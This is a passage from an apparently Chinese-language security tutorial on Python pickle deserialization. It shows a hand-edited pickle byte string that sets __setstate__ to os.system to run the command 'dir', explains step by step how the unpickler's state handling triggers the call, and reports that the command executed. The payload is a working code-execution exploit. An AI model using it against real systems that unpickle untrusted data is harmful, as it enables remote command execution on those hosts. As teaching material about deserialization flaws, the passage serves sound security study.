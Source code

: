 [![](assets/1705886719-e1687e7d8ad50bdd157b2e890e6eadd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211243-6e605d9c-b6cc-1.png)

我们依旧拿原来得到的序列化串进行修改，在 B 类实例化中添加\_\_setstate\_\_的值为 os.system，然后再压入要执行的命令即可，修改后的 payload 为

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(V__setstate__\ncos\nsystem\nubVdir\nb.'
```

[![](assets/1705886719-9b4da469d56555627ecf0f5634b8546e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211251-72fdada0-b6cc-1.png)

> 传入这个 payload，首先 stack 弹出栈顶即为将 state 值赋为\_\_setstate\_\_这个字典，然后进入 state 的字典循环，将弹出的 key 即\_\_setstate\_\_和 value 即 system 合并到 inst\_dict 中，到第二次循环时，inst 就能够取到\_\_setstate\_\_的值，然后此时 stack 为 B 实例化对象列表，弹出的值为 dir，然后就会进入 setstate(state) 执行 system(dir)

可以看到命令执行是成功的，这里报错是因为没有给 B 实例实例化值，但是不妨碍命令的执行。

[![](assets/1705886719-0cbb07a01a45fd6423525c477f14a8d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211259-77ac5dba-b6cc-1.png)

